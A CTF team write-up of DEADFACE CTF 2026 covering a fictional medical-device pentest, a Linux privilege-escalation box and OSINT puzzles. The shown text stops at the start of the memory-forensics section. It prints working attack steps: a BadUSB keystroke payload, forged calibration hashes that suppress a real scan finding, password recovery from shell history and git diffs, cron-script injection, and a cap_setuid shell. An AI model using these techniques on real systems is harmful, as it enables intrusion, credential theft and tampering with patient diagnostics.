# DEADFACE CTF 2026 — Master Team Write-up — "Double Espresso"


| | |
|---|---|
| **Players** | Youssef Tarhouni · Aymen Ladhari |
| **Event** | DEADFACE CTF 2026 (Cyber Hacktics) — 17–19 Oct 2026, Tunisia time |
| **Platform** | https://ctf.deadface.io |
| **Flag format** | `deadface{...}` (two challenges use non-standard brace characters, noted inline) |

**DEADFACE CTF 2026** was a three-day story-driven CTF (Cyber Hacktics) built around a fictional hacking crew, DEADFACE, and their campaign against a handful of fictional organizations — a hospital/medical-device vendor (Emedra/ScanWorks), a financial firm (De Monne Financial), a pharma/health network (Aurora), a university (Night Veil/TGRI), and the crew's own disposable infrastructure (the Hostbusters box, GhostTown forum, DoomScroll feed). Categories spanned PWN, web, mobile, reversing, database forensics, memory forensics, traffic analysis, steganography, cryptography, and OSINT, with the story stitching almost every category back into the same cast of handles and the same handful of incidents. This write-up documents our full run across all of it, worked together as one team.

**Team total: 11,617 points.** 95 of the board's 96 challenges solved — the only one still open is Get That Bag's salary cipher.

## Contents

0. [World & infrastructure](#0-world--infrastructure)
1. [Part I — Pentesting Medical Equipment: Emedra CerebraScan / ScanWorks](#part-i--pentesting-medical-equipment)
2. [Part II — Hostbusters (privilege-escalation chain on "charon")](#part-ii--hostbusters)
3. [Part III — OSINT](#part-iii--osint)
4. [Part IV — Memory Forensics: De Monne Financial](#part-iv--memory-forensics--de-monne-financial)
5. [Part V — File Dump: Daniel's Stolen Identity](#part-v--file-dump--daniels-stolen-identity)
6. [Part VI — Steganography & Metadata](#part-vi--steganography--metadata)
7. [Part VII — Crypto & Logic](#part-vii--crypto--logic)
8. [Part VIII — PCAP / Network](#part-viii--pcap--network)
9. [Part IX — Web: Health Spark Employer Portal](#part-ix--web-health-spark-employer-portal)
10. [Part X — OSINT / Web: GhostTown extras](#part-x--osint--web-ghosttown-extras)
11. [Part XI — Reversing](#part-xi--reversing)
12. [Part XII — Mobile](#part-xii--mobile)
13. [Part XIII — DataBASE: Aurora Health / Aurora Pharmacy](#part-xiii--database-aurora-health--aurora-pharmacy)
14. [Part XIV — Misc](#part-xiv--misc)
15. [Part XV — PWN](#part-xv--pwn)
16. [Part XVI — De Monne Slayer](#part-xvi--de-monne-slayer)
17. [Flag summary](#flag-summary)
18. [Defensive takeaways](#defensive-takeaways)
19. [Appendix — tooling & recurring patterns](#appendix--tooling--recurring-patterns)

> Traffic Analysis, Database, De Monne Breach, Forensics, and OSINT challenges are folded directly into their existing Parts above (VIII, XIII, IV, VI, and III respectively) rather than repeated in a separate section.

---

## 0. World & infrastructure

The event is a connected story about the **DEADFACE** hacking crew. Two fictional platforms recur and are the backbone of the OSINT/web trail:

| Resource | Host | Notes |
|---|---|---|
| **GhostTown** forum | `ghosttown.deadface.io` | Crew message board. Publicly readable; threads seed individual challenges. |
| **DoomScroll** social feed | `doomscroll.dctf.io` | Has a **public JSON `/api`** that returns fields the UI never renders — the recurring *"read what the server RETURNS, not what the app SHOWS"* trick (`/api/posts/<id>/meta`, `/api/users/<id>/notes`, etc.). |
| gh0st404's blog | `speakfriend.dctf.io` | "bytes & bakes." Serves a hidden version to one specific User-Agent. |
| Aurora Pharmaceuticals portal | `aurora.dctf.io` | Umbrella name for several separate challenges: a leaked SQL database (Part XIII), an iOS patient-portal app (Part XII), and an internal VPN referenced in Second Shift (Part VII). |
| De Monne Financial app API | `dmf.dctf.io:8081` | Backs the memory-forensics target in Part IV and the mobile/API series in Part XVI. |
| Health Spark portal | `45.79.200.170:3000` | 4-part web chain (Part IX). |
| ScanWorks / Emedra CerebraScan | n/a (physical device rig) | Standalone medical-device pentest, not part of the online infrastructure (Part I). |
| hostbusters.dctf.io | `hostbusters.dctf.io` | Disposable Linux box "charon" (Part II). |
| PWN jail hosts | `159.65.228.107:5001–5005` | The Crypt / Skeleton Key / Cursed Mirror / Cursed Library / Necromancy (Part XV). |

**Key gotcha that cost time:** 2026 challenge infrastructure lives under **`dctf.io`**, not `deadface.io`. DNS/CT-log searches under `deadface.io` only ever show `ctf`, `ghosttown`, `shop`, `support` — DoomScroll and the blogs are on `dctf.io`.

**Members:** `gh0st404`, `mort1cia`, `lilith`, `luciafer`, `lamia415` (alias "Alice"), `sunstalker`, `b1tfr34k`, `d34th`, `TheZeal0t` (reversing author), `deephax`, `@syyntax` (De Monne Breach case author).

---

## Part I — Pentesting Medical Equipment

**Target: Emedra CerebraScan CS-9000 / "ScanWorks"** — firmware NeuraOS 2.3.1, serial EM-CS9K-04417, deployed at "St. Dymphna's RMC". This is a standalone physical/embedded-device exercise: the only way in is the peripheral toolkit provided (HDMI cable, DisplayPort cable, Live-Linux USB-A, Rubber Ducky USB-A, BLE sniffer USB-A), and every flag comes from abusing a different trust assumption the device makes about whatever gets plugged into it.


*The locked ScanWorks console and the attacker toolkit.*

### 1. HID injection (BadUSB) → hidden maintenance console

The kiosk "never locks out the keyboard", so a Rubber Ducky presenting itself as a USB keyboard is trusted with no pairing step. Its payload hits a hotkey to drop into a hidden debug shell:

```
REM Rubber Ducky payload - target: ScanWorks kiosk
DELAY 500
CTRL-ALT F12
DELAY 300
STRING <function>(<table>)
ENTER
```

`list()` and `help()` both returned `error: unknown function`; the literal `<function>(<table>)` placeholder returned `error: syntax error (expected function(arg))` — an error message that leaks the console's grammar to anyone probing it. Once the right maintenance call was found, the browser session came back already signed in as **Service Technician**, with a maintenance token sitting in the welcome banner itself: a default credential that was never rotated after manufacturing.

> 🚩 **Flag:** `deadface{d3fault_cr3ds_n3v3r_ch4ng3d}`


*Operator Console, signed in as Service Technician; the token is right in the welcome banner.*

### 2. HDMI diagnostic mirror → unauthenticated PHI leak

The HDMI port mirrors an "Engineer Diagnostic OSD" to any external monitor with no authentication at all, because the port is assumed to be physically inaccessible. At level 2/3 the overlay redacts patient data (`G.M.` / `MRN ****13`) and states `raw_dump=locked (needs level 3)`. Raising the on-screen level to 3/3 turns redaction off entirely.


*Level 2/3: redacted, raw dump locked.*


*Level 3/3: full name, DOB, MRN & the flag.*

> 🚩 **Flag:** `deadface{hdm1_l34ks_th3_wh0l3_p4t13nt}`

### 3. Live-Linux USB — forging the calibration "signature"

The Live-Linux stick's storage is explicitly unencrypted. Mounted, it exposes `/mnt/opt/scanworks/calibration/calib.json` next to `calib.json.sig`. The "signature" turns out to be `sha256(file_bytes || "EM-2019")` — a hash with a hard-coded salt, not a real signature, so anyone with local access can forge it:

```bash
sed -i 's/"report_above": 0.35/"report_above": 0.99/' \
    /mnt/opt/scanworks/calibration/calib.json
cat /mnt/opt/scanworks/calibration/calib.json > /tmp/combined
printf 'EM-2019' >> /tmp/combined
sha256sum /tmp/combined        # recompute the forged hash
printf '<hash>' > /mnt/opt/scanworks/calibration/calib.json.sig
scanctl verify   # CALIBRATION integrity: OK (signature verified)
scanctl scan
```

`scanctl scan` then runs against patient Gideon Marsh (MRN 100413): the real anomaly score is 0.72, well past the genuine 0.35 safety threshold, but with the forged `report_above=0.99` it prints `RESULT: No abnormality detected`, with an internal audit line admitting the suppression.

> 🚩 **Flag:** `deadface{c4l1br4t10n_f0rg3ry_h4rms_l1v3s}`


*Forged calibration passes verification; the scan silently suppresses a real 0.72 finding.*

### 4. BLE telemetry — solved

The BLE sniffer captured passive traffic explicitly labelled "telemetry is unencrypted": a stream of `handle/seq/len` records with raw hex payloads. Handle `0x37` carries longer (len=12) payloads than handle `0x2a` (len=6), suggesting two different GATT characteristics.

> 🚩 **Status:** Solved — flag submitted directly in CTFd; not recorded in these notes.


*Unencrypted BLE capture, two distinct handles.*

---

## Part II — Hostbusters

**Target: hostbusters.dctf.io** — a disposable Linux box ("charon"), reset to a fresh copy on every web-shell session. The scenario: "DEADFACE ops/staging — Kingmaker workstream", starting with a foothold as `svc-deploy` and a chain of sloppy DEADFACE members to climb through.

### Hostbusters (foothold) — 10 pts

The web shell drops straight into a foothold as `svc-deploy`; the very first flag is sitting in the home directory.

```
charon:~$ ls
flag.txt
charon:~$ cat flag.txt
deadface{f00th0ld_0n_ch4r0n}
```

> 🚩 **Flag:** `deadface{f00th0ld_0n_ch4r0n}`

### Looking Back — 30 pts
*SYYNTAX · FORENSICS · PRIVESC · LINUX — by @syyntax*

"Whichever member used svc-deploy last was sloppy... access one of their accounts and read the flag in their home directory." `~/.bash_history` as `svc-deploy` contains an admin's own password-rotation ticket, typed as a literal command instead of piped in quietly:

```
charon:~$ cat ~/.bash_history
...
echo "deephax:Sk4t3rB0y_S1nce_2011" | sudo chpasswd
history -c
charon:~$ su - deephax
Password: Sk4t3rB0y_S1nce_2011
charon:~$ cat ~/flag.txt
deadface{h1st0ry_r3m3mb3rs_4ll}
```

> 🚩 **Flag:** `deadface{h1st0ry_r3m3mb3rs_4ll}`


*su - deephax using the password recovered from bash_history.*

### Git Good — 100 pts
*SYYNTAX · FORENSICS · LINUX · PRIVESC — by @syyntax*

"deephax swears he scrubbed the credentials out of [his tooling project]. He's wrong." A later commit moved a service password out of source and into an environment variable — but the password is still sitting in the diff of that very commit:

```
charon:~$ cd /home/deephax/kingmaker-scraper
charon:~/kingmaker-scraper$ git --no-pager log --all -p \
    | grep -iE "pass(word)?|secret|token" -A2 -B2
-SERVICE_USER = "gh0st404"
-SERVICE_PW   = "Gh0stInTh3Sh3ll_404"
charon:~$ su - gh0st404
Password: Gh0stInTh3Sh3ll_404
charon:~$ find /home/gh0st404 -maxdepth 2 -iname "*flag*" -exec cat {} \;
deadface{git_l0g_sp1lls_s3cr3ts}
```

> 🚩 **Flag:** `deadface{git_l0g_sp1lls_s3cr3ts}`


*Full chain in one session: bash_history, git log -p, and the sudo-script trick used for Lilith below.*

### Lilith — 250 pts
*SYYNTAX · FORENSICS · PRIVESC · LINUX — by @syyntax*

"sunstalker was granted a narrow permission to help another member run a job. Narrow permissions on the wrong binary aren't narrow at all." As `gh0st404`, `/etc/cron.d/charon-collect` shows a system cron job running a script every minute *as sunstalker*, and that script is owned by (and writable by) `gh0st404` — the account we just became:

```
charon:~$ cat /etc/cron.d/charon-collect
# charon collector: runs as sunstalker; script is maintained by gh0st404
* * * * * sunstalker /opt/scrape/collect.sh
charon:~$ ls -la /opt/scrape/collect.sh
-rwxr-xr-x  1 gh0st404 gh0st404  147 Oct 18 17:24 /opt/scrape/collect.sh
```

sunstalker in turn has a narrow `sudo` rule letting that cron job run one specific command *as lilith*. Since we can edit the script that cron executes as sunstalker, we don't need sunstalker's password — we just add a line that uses their sudo rule for us, and wait for the next minute's run:

```
charon:~$ echo 'sudo -u lilith /usr/bin/find /home/lilith -maxdepth 2 \
  -iname "*flag*" -exec cat {} \; > /tmp/lilithloot 2>&1; chmod 666 /tmp/lilithloot' \
  >> /opt/scrape/collect.sh
charon:~$ sleep 60        # wait for cron's next-minute run of collect.sh (as sunstalker)
charon:~$ cat /tmp/lilithloot
deadface{sud0_f1nd_4_w4y_1n}
```

> 🚩 **Flag:** `deadface{sud0_f1nd_4_w4y_1n}`

### Dangerous Capability — 300 pts
*SYYNTAX · FORENSICS · PRIVESC · LINUX — by @syyntax*

"lilith left some 'crypto tooling' lying around charon. One of those tools was granted a Linux capability it should never have had." A filesystem-wide capability sweep (as `gh0st404`, whose group owns the binary) turns up exactly one hit:

```
charon:~$ getcap -r / 2>/dev/null
/opt/crypto/cryptctl cap_setuid=ep
```

`cap_setuid=ep` means this one binary can call `setuid()` to become any UID without being `root` itself — a capability that should never be handed to an interactive tool. Running it cold just prints a banner and waits on stdin, so we pulled the printable strings to see what it does internally before poking further:

```
charon:~$ strings /opt/crypto/cryptctl | grep -iE "setuid|exec|system|shell|sh -c" | head
cryptctl: setuid
cryptctl: exec
execve / execl / execv
setuid
```

So `cryptctl` reads one line from stdin, calls `setuid()` to a hard-coded UID ("assuming the crypto service identity"), and then runs whatever it was given. A few probes (`help`, `shell`, `exec /bin/sh`) either no-op or error, but handing it a literal command works, and confirms exactly which identity it drops into:

```
charon:~$ echo "id" | /opt/crypto/cryptctl
[cryptctl] assuming the crypto service identity.
uid=1006(spookyboi) gid=1003(gh0st404) groups=1003(gh0st404)
charon:~$ echo "/bin/sh" | /opt/crypto/cryptctl
[cryptctl] assuming the crypto service identity.
charon:~$ whoami
spookyboi
charon:~$ find /home/spookyboi -maxdepth 2 -iname "*flag*" -exec cat {} \;
deadface{c4p_s3tu1d_cuts_d33p}
```

Piping `/bin/sh` into `cryptctl` hands back an interactive shell already running as `spookyboi` (uid 1006) — the capability lets any user who can execute the binary assume that identity, not just the intended "crypto service" caller.

> 🚩 **Flag:** `deadface{c4p_s3tu1d_cuts_d33p}`

> ℹ️ **Note:** An earlier session against the same challenge (screenshot below) used a different crypto-tooling binary name (`/opt/crypto/pytool`, a Python one-liner instead of cryptctl's stdin protocol) and returned `deadface{c4p_s3tu1d_pwn3d}` instead — same vulnerability class (cap_setuid on a tool that shouldn't have it), same target user (spookyboi, uid 1006), different exact binary and flag suffix because charon resets to a fresh, re-randomized copy of the box on every session.


*An earlier session's variant: lilith's osint.txt hints at spookyboi, then /opt/crypto/pytool's cap_setuid is abused the same way.*

---

## Part III — OSINT

### The Mark — 350 pts
*hybrid — by n/a*

> *DEADFACE bragged about gaining access to sensitive information belonging to TGRI. They're targeting a person — but who? Search for intel where DEADFACE posts and follow the trail.* Submit as `deadface{first_last}`.

**Approach.** This is explicitly a "treat it like an investigation" hybrid challenge:

1. **Where does DEADFACE post?** The GhostTown forum, and from there the DoomScroll feed. The campaign/announcement threads state the operation targets **TGRI decision-makers** — so "the mark" is a *person*, not a machine or file.
2. **Narrow to TGRI.** The TGRI "innovation summit" recap (later fully unlocked in the *Speak Friend* blog challenge, Part VIII) names the target by role: **TGRI's Director of R&D / CFO**.
3. **Name resolution.** Following the summit intel and the DoomScroll trail resolves the mark to **Santos Staudenmaier** (confirmed in a follow-up challenge's decoded DoomScroll message, which literally reads *"TGRI's CFO, Santos Staudenmaier…"*).

> 🚩 **Flag:** `deadface{Santos_Staudenmaier}`

### Get That Bag — The Long Road, 350 pts

> *How much is the victim's (Santos Staudenmaier's) salary?* Flag `deadface{$#}`.

Scope: `ghosttown.deadface.io`, `speakfriend.dctf.io`, `doomscroll.dctf.io` — the same TGRI/DoomScroll investigation that produced **The Mark** above, worked jointly.

```bash
curl -s "https://ghosttown.deadface.io/" -o gt_index.html
grep -oE 'href="/t/[0-9]+/[^"]*"' gt_index.html | sort -u -t/ -k3 -n   # thread 59 = hidden /api
for path in comments notes meta details history; do
  curl -s "https://doomscroll.dctf.io/api/posts/200/$path"; done       # only /meta + /comments real
```

The `bigdawg-1.jpg` under `challenges/steg/` is a decoy (all 7 progressive scans clean; `rockyou` finds nothing). The `/meta` value on several posts uses only `U+2002/U+2003/U+2009` → base-3, 6 trits/char — this is the decode method behind the `pt1`/`pt3`/`pt5` posts that helped resolve The Mark above:

```python
def decode(v):
    tm={0x2002:'0',0x2003:'1',0x2009:'2'}
    t=[tm[ord(c)] for c in v if ord(c) in tm]
    return ''.join(chr(int(''.join(t[i:i+6]),3)) for i in range(0,len(t)-5,6))
```

> **Verification note:** an earlier pass said "pt2/pt4 do not exist" — an enumeration gap. They live on `lamia415` (post 224) and `sunstalker` (post 227), recovered below.

**Full trail documented below, including the real brute-force work against the ciphertext; the figure was not recovered in time.**

```bash
dig +short doomscroll.dctf.io          # 161.35.124.66  (doomscroll.deadface.io is NXDOMAIN)
```

```python
for pid,key in [(224,'pt2'),(227,'pt4')]:
    import json,subprocess
    d=json.loads(subprocess.run(['curl','-s',f'https://doomscroll.dctf.io/api/posts/{pid}/meta'],
                                capture_output=True,text=True).stdout)
    for m in d['meta']:
        if m['key']==key: print(key, decode(m['value']))
# pt2: "Ooh, following the money? ... controls every dollar they spend."
# pt4: "Already on it. Santos seems pretty protective of his reputation..."
```

A full `/api/posts/1..999/meta` scan found only known keys + post 274 ("Look here" = an AI-targeted honeypot, ignored); no encrypted field outside the known `pt1–pt5` and `passcode` keys.

**The passcode cipher (post 235) — brute-forced, never cracked.** `passcode` on post 235 is the same whitespace stego (EN/EM/THIN space, base-3) used for pt1–pt5, but its decoded trits don't resolve to English under any cipher tried:

```python
# fetch + base-3 decode the raw ciphertext
import json, urllib.request
def b3_decode(val):
    TRIT = {chr(0x2002): 0, chr(0x2003): 1, chr(0x2009): 2}
    trits = [TRIT[c] for c in val if c in TRIT]
    out = []
    for i in range(0, len(trits) - 2, 3):
        n = trits[i]*9 + trits[i+1]*3 + trits[i+2]
        out.append(' ' if n == 26 else chr(ord('a')+n) if 0 <= n <= 25 else '?')
    return ''.join(out)

url = "https://doomscroll.dctf.io/api/posts/235/meta"
with urllib.request.urlopen(url) as r:
    data = json.load(r)
val = next(e["value"] for e in data["meta"] if e["key"] == "passcode")
ct = b3_decode(val)
print("ciphertext:", ct)
```

Tried against `ct` — none scored as readable English:

- **Vigenère**, keyed on every numeric string visible on the page (`"02215600177013228922238212200948"` and its substrings), both directions, mod-26 and mod-27 (space-inclusive) alphabets.
- **Morse re-decode** of the same three whitespace characters, all 6 dot/dash/separator permutations (the trit-grouping assumption could be wrong — tested the flat case too).
- **Kasiski examination** on the concatenated pt1–pt5 + passcode trit-stream: repeated 4-grams found, but GCD-of-distances gave no clean key length, and the top-scoring key lengths (1–40) still produced no legible text.
- **Two-key alternating Vigenère** (`k0`/`k1` applied on alternating positions, all 27×27×2 combinations, scored against a common-English-word list) — best-scoring candidates were still fragments of `?` noise, not words.

```bash
# the pastebin from post 235's own passcode key lead — a Fernet key, not the cipher's key
curl -s "https://pastebin.com/raw/GBcnwhvZ"
# KKq5/Gq6qHW4isNitU8wR02wW/+6y+rH7bZODH0Mnc0=    (32-byte Fernet key) + "DEADFACE CTF 2026"
grep -arl 'gAAAAA' *.html *.png bigdawg-1.jpg 2>/dev/null     # no matching Fernet token found
```

This Fernet key is a **separate, later lead** from the base-3 ciphertext above — no `gAAAAA`-prefixed token was ever found anywhere in scope to pair it with, and the base-3 ciphertext itself does not look like base64 (so it's not the Fernet token in disguise either). Both leads remain unresolved.

Other threads: speakfriend SVG covers embed base64 PNGs but carry no intentional stego; thread 58 (DMF/John Doe password) says it was "shared on DoomScroll"; post 224 (`lamia415`, "De Monne Financial") shows an analyst with a De Monne thermos, monitors unreadable; `ghosttown.deadface.io/search?q=TGRI` and a `travis`-themed image/upload path hunt on `doomscroll.dctf.io` were both still open when work stopped.

**Verification:** Fernet key = 44 base64 chars = 32 bytes (re-checked).

**Status — genuinely open, not a near-miss:** the salary ciphertext resists every classical cipher tried; a Fernet key is in hand with no matching token, confirmed genuinely unsolved by the raw Kali shell history (`~/.zsh_history`, 4037 lines) cross-checked for this edition.

> 🏳️ **Status:** Unsolved. **Flag pending:** `deadface{$<salary>}`

> **Lessons (TGRI):** pull the real board index, not the search box; `challenges/steg/` can be a decoy; "empty" strings may carry whitespace stego (3 distinct chars ⇒ base-3); watch the exact hostname (`doomscroll.dctf.io`); recognise and ignore AI-targeted honeypots; don't assume a base-3 decode is the final plaintext — it may itself be ciphertext needing a second cipher layer not yet identified.

### Death — 100 pts
*OSINT*

> *What is d34th's first name?* (`deadface{John}` is only the format example.)


*luciafer's DoomScroll photo of d34th (post 200).*

**Approach.**

1. **The pivot thread.** On GhostTown, the "glasses" thread: `luciafer` photographs `d34th` (distinctive yellow blue-light glasses in a cafe) and posts it to DoomScroll ("UPDATE: IT'S POSTEDDD").
2. **Dead ends by design.** `d34th` has **no DoomScroll profile**, and the photo is AI-generated — every DoomScroll image shares an identical doctored Little-CMS sRGB ICC profile. So EXIF author fields are empty and reverse-image search finds nothing. Those are intentional rabbit holes.
3. **The intended channel.** The "Who knew doomscrolling could be so useful?" thread tells you the data lives in **API fields the feed hides**. luciafer's photo is post **200**.

```bash
curl -s https://doomscroll.dctf.io/api/posts/200/meta
```
```json
{"meta":[
  {"id":1,"key":"filename","value":"travis_001.png"},
  {"id":2,"key":"what whaaaaat","value":"            (whitespace blob — a different challenge)"}
]}
```

The uploaded photo's **original filename** `travis_001.png` is served by `/meta` but hidden in the feed. d34th's first name = **Travis**. (`exiftool`/stego sweeps on the saved image were all clean, confirming this is a pure API-OSINT challenge, not image stego.)

> 🚩 **Flag:** `deadface{Travis}`

### Ghost of Squares Past — GEOINT, 150 pts

A compass across five Savannah squares: N/E/S/W years + center monument surname.

| Point | Square | Year / name |
|---|---|---|
| 1 (N) | Johnson | 1733 |
| 2 (E) | Oglethorpe | 1742 |
| 3 (S) | Chippewa | 1815 |
| 4 (W) | Telfair | 1733 |
| 5 (C) | Wright — Gordon Monument | gordon |

Tools: Google Street View, `exiftool` (no GPS → visual match), Wikipedia *Squares of Savannah*.

> 🚩 **Flag:** `deadface{1733-1742-1815-1733-gordon}`

---

## Part IV — Memory Forensics: De Monne Financial

**Artifact:** `memory.7z` → `memory.raw` (≈8 GB Windows memory image). Volatility 3 was attempted on one pass but its Microsoft symbol download failed, so UTF-16LE string carving (`strings -el`) was the reliable fallback for most of the sub-challenges below; on another pass against the same image plus a companion `demonne.pcap`, Volatility 3 installed cleanly and full packet correlation was also used — both approaches are folded in here.

**Case brief (continuing below):** a rogue Kali device was slipped onto De Monne Financial's corporate network; a legitimate employee account was then used to access the company file share and steal documents, one of which later surfaced on Ghost Town, confirming the breach. Case authored by `@syyntax`.

### Who Goes There? — `deadface{nkessler}` ✅

